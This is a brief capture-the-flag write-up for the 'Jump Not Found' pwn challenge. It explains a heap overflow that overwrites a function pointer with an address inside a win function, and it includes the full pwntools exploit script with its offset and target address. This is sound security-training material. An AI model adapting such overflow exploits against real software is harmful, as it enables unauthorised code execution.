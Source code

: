 # Jump Not Found 400pts (25 solves) #

![TASK](https://imgur.com/epSLtgQ.png)

This was a heap based overflow , we will overflow the jumpToHoth function address with jumpToNaboo (Win) function address, i faced a little problem because gets stops when it encounters an "\n" (0x0a) and the WIN function address has 0x0a so i have chosen an address in the WIN function (not the start of the function).

Here is my full exploit , if you are interested i will post a detailed writeup about this challenge and WPICTF pwn challenges in the next days, so stay tuned (My twitter account @BelkahlaAhmed1)

```python

from pwn import *

p=process("./JNF")
#p=remote("192.241.138.174",9996)
p.recvuntil("CONSOLE>")
WIN=p64(0x000000000040070e)
OFFSET="1"+"A"*79
payload=OFFSET
payload+=WIN
p.sendline(payload)
log.info("Found Flag ! ")
p.interactive()

```

**Note:** Binary link [HERE]()
If you have any questions you can DM on twitter @BelkahlaAhmed1 , thank you :D
